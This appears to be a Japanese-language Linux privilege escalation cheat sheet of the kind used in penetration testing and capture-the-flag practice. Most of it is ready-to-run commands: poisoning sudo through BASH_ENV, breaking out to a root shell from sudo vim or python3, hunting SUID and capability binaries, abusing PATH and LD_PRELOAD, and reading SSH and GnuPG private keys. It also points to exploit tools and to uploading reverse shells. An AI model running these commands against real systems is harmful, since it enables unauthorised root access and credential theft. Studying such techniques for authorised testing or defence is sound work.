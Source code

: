 # 🛡️ Linux 権限昇格手順まとめ
## 1. 🧑‍💻 Sudo 権限を利用した昇格
### a. 🔍 実行可能な sudo コマンドを確認

b. 🧪 sudo 環境変数汚染（BASH_ENV）
echo 'bash -p' > /tmp/exp.sh
chmod +x /tmp/exp.sh
sudo BASH_ENV=/tmp/exp.sh /usr/bin/systeminfo

c. 🧯 環境変数が継承されない場合
sudo -s
# または
sudo -i

d. 📝 sudo で実行できるエディタやインタプリタの利用
sudo /usr/bin/vim -c ':!/bin/sh'
sudo /usr/bin/python3 -c 'import os; os.system("/bin/sh")'

2. 🔒 SUID ビット付きファイルの利用
find / -perm -4000 -type f 2>/dev/null
例（bashにSUIDがある場合）:
/tmp/bash -p
whoami

3. ✍️ 書き込み可能なファイルやディレクトリの調査
find / -writable -type d 2>/dev/null
find / -writable -type f 2>/dev/null

4. ⏲️ Cron ジョブの調査
cat /etc/crontab
ls -la /etc/cron.*
systemctl list-timers --all

5. 🧬 環境変数を悪用した昇格
PATH の改変
LD_PRELOAD や LD_LIBRARY_PATH の利用
特に root で実行されるスクリプトで外部コマンドを呼ぶ場合に有効。

6. 🔑 パスワードや秘密鍵の発見
cat ~/.gnupg/*
cat ~/.ssh/id_rsa

7. 🐧 ローカル脆弱性の利用
カーネルの既知の脆弱性を使う（例: Dirty COW、sudoバグなど）
以下のツールを使うと便利:
searchsploit
linux-exploit-suggester
linpeas.sh

8. 🌐 Webシェルやファイルアップロードを利用した昇格
PHP/Pythonのリバースシェルをアップロード
TTY付きシェルで安定した操作を確保

9. 🧠 その他Tips
🔎 Capability付きファイルの確認
getcap -r / 2>/dev/null
cap_setuid などがついていれば昇格に使える可能性あり。

🧰 TTYを使ったシェルの安定化（Python）
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
